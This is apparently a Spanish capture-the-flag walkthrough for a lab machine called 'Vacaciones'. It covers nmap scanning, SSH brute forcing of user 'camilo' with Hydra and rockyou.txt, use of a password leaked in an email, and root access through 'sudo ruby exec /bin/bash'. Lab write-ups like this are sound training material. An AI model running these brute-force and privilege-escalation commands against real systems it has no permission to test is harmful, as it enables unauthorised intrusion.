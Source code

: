 ```yaml
---
description: '✍️ Autor: Romabri🔍 Dificultad: Muy Fácil  📅 Fecha de creación: 01/01/2000'
---
```


# Vacaciones

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/0.png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP

![](../../.gitbook/assets/1.png)

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web aparezca vacía.

![](../../.gitbook/assets/3.png)

De primeras, no se nos muestra nada, por lo que revisamos el código fuente por si hay alguna información oculta relevante.

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

Al parecer, hemos descubierto nombres que posiblemente sean los usuarios, por lo que intentaremos conectarnos a través de **SSH**.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**. Hemos probado varios usuarios, pero el que da respuesta es **camilo**.

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **camilo**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh camilo@172.17.0.2
```

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

![](../../.gitbook/assets/6.png)

Como no somos **root**, debemos hacer una escalada de privilegios, pero antes revisaremos el correo que le envió **Juan** a **Camilo**.

![](../../.gitbook/assets/7.png)

Por lo que **Juan** nos ha dado su contraseña, seguramente él sea un usuario del grupo **sudo**, por lo que nos conectaremos a él.

![](../../.gitbook/assets/8.png)

Observamos que podemos escalar privilegios con **ruby** usando el comando:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Tras eso, ponemos:

```bash
whoami
```

y ya somos **root**.

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>
